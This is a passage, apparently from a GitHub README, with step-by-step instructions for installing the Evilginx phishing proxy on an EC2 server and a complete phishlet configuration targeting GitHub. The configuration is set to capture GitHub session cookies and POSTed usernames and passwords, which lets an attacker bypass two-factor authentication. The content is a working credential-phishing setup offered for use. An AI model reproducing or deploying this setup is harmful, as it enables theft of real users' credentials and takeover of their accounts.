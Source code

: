 ### Evilginx installation
1. Connect to the EC2 instance using SSH. You can click on the instance and click on the "Connect" button. Under the SSH tab, you can find a sample command for connecting to your instance using your private key. If you need help and have never connected via SSH before, see [this article](https://www.digitalocean.com/community/tutorials/how-to-use-ssh-to-connect-to-a-remote-server).
2. Run the following commands for setup:

```
sudo apt-get update

sudo apt-get upgrade

sudo apt install make
sudo apt install make-doc

wget https://go.dev/dl/go1.19.6.linux-amd64.tar.gz

sudo tar -C /usr/local/ -xzf go1.19.6.linux-amd64.tar.gz

sudo nano /etc/profile
# add this line to the end of /etc/profile
export PATH=$PATH:/usr/local/go/bin

source /etc/profile
go version

git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
git reset --hard 511860c
make
```
3. In the phishlets directory, edit the github.yaml file to match the following: 
```
author: '@audibleblink'
min_ver: '2.3.0'
proxy_hosts:
  - {phish_sub: '', orig_sub: '', domain: 'github.com', session: true, is_landing: true}
  - {phish_sub: 'api', orig_sub: 'api', domain: 'github.com'}
  - {phish_sub: 'github', orig_sub: 'github', domain: 'githubassets.com'}

sub_filters:
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: 'https://{hostname}', replace: 'https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript']}
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: 'https://{hostname}/sessions/two-factor', replace: 'https://{hostname}/sessions/two-factor', mimes: ['text/html', 'application/json', 'application/javascript']}
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: '{hostname}', replace: 'hostname', mimes: ['text/html', 'application/json', 'application/javascript']}


auth_tokens:
  - domain: '.github.com'
    keys: ['logged_in', 'dotcom_user']
  - domain: 'github.com'
    keys: ['user_session', '_gh_sess']

credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
```